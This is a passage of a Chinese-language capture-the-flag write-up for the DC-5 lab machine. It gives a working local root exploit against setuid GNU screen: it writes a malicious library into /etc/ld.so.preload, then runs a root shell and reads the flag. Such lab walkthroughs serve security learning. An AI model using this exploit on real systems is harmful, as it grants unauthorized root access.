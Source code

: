 **upload successful**

  
将剩余代码保存到dc5.sh

```
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so...
/tmp/rootshell
```

并输入:

```
set ff=unix
```

![upload successful](https://lnng.top/images/pasted-212.png)

**upload successful**

  
将三个文件上传到/tmp文件中  
然后修改dc5.sh的权限

```
chmod 777 dc5.sh
```

然后执行

```
./dc5.sh
```

![upload successful](https://lnng.top/images/pasted-213.png)

**upload successful**

  
读取flag  

![upload successful](https://lnng.top/images/pasted-214.png)

**upload successful**

```
cat thisistheflag.txt                                                                                                             


888b    888 d8b                                                      888      888 888 888                                         
8888b   888 Y8P                                                      888      888 888 888                                         
88888b  888                                                          888      888 888 888                                         
888Y88b 888 888  .d8888b .d88b.       888  888  888  .d88b.  888d888 888  888 888 888 888                                         
888 Y88b888 888 d88P"   d8P  Y8b      888  888  888 d88""88b 888P"   888 .88P 888 888 888                                         
888  Y88888 888 888     88888888      888  888  888 888  888 888     888888K  Y8P Y8P Y8P                                         
888   Y8888 888 Y88b.   Y8b.          Y88b 888 d88P Y88..88P 888     888 "88b  "   "   "                                          
888    Y888 888  "Y8888P "Y8888        "Y8888888P"   "Y88P"  888     888  888 888 888 888                                         

```